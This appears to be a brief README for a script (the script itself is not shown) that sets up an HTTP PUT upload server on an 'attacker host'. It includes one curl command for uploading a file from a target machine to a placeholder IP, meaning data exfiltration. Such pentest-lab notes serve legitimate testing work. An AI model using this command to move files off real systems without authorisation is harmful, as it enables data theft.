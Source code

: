 Python modules http.server and uploadserver appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

```bash
Linux: curl --upload-file <filename> http://<ip>:8000/
```

Note: I did not write code, I just found it and saved it.
